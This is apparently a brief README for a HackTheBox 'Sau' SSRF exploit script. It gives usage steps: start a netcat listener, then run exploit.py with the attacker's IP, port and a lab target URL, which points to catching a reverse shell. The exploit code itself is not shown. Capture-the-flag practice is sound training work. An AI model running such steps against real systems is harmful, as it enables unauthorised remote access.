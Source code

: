 # hackthebox sau script for ssrf

usage:
NB: remember  to start your netcat listeiner eg: nc -lnvp 9999 before running the script  below. {by massco99 hacker}

python3 exploit.py <Your Ip> <Your Port listeiner> http://10.10.11.224:55555/cos
